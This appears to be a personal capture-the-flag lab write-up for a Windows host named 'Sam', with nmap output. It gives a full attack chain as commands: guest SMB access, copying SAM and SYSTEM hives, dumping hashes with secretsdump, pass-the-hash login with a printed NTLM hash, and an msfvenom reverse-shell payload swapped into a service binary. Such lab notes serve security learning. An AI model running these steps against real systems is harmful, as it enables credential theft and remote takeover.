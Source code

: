 ```yaml
---
tags: [AD, Beginner, Video]
title: Sam
created: '2020-07-06T18:26:53.207Z'
modified: '2020-10-02T17:41:42.719Z'
---
```


# Sam
- IP: `172.31.1.18`
- OS: `Windows`
## Enumeration
### Writeup
We can login as guest on SMB: `smbclient.py SAM/sdfsdfsdafdsafasdfst@172.31.1.18`
We mount the backup share: `mount -t cifs -o username=asdklfsadf,password= //172.31.1.18/backups /mnt/backups/`

We find SAM and SYSTEM file:
- `cp /mnt/backups/Windows/System32/config/SAM .`
- `cp /mnt/backups/Windows/System32/config/SYSTEM .`
We dump their creds using: `secretsdump.py -sam SAM -system SYSTEM LOCAL`

We get a shell as jamie using: `evil-winrm -i 172.31.1.18 -u jamie -H 68b1d3b0493ec0d6a1c0b8725062ab71`

We see the services folder and see there are 2 services. `services`
We follow the [cheatsheet](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation#services)
Can we do anything with this service? `cmd /c 'sc sdshow monitor1'`
- Can we modify the service: `cmd /c 'sc config monitor2 binpath="C:/test.exe"'`
- Can we modify the binary it's running?
  - `cmd /c 'sc qc monitor1'` qc = query configuration
  - `icacls "C:\Services\monitor1.exe"` Integrity Control Access Control List"
  - `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.8 LPORT=1234 -f exe > monitor1.exe`
  - `sc start monitor1`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.18`
```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SAM
|   NetBIOS_Domain_Name: SAM
|   NetBIOS_Computer_Name: SAM
|   DNS_Domain_Name: SAM
|   DNS_Computer_Name: SAM
|   Product_Version: 10.0.14393
|_  System_Time: 2020-07-06T18:35:46+00:00
| ssl-cert: Subject: commonName=SAM
| Issuer: commonName=SAM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-08T22:33:11
| Not valid after:  2020-11-07T22:33:11
| MD5:   03ae b18c 6555 e7e2 0377 2e61 ea5e 8864
|_SHA-1: 00c0 fc67 3a6c f582 dc8e 2717 ce36 14b6 c8ea fc12
|_ssl-date: 2020-07-06T18:35:51+00:00; +2s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
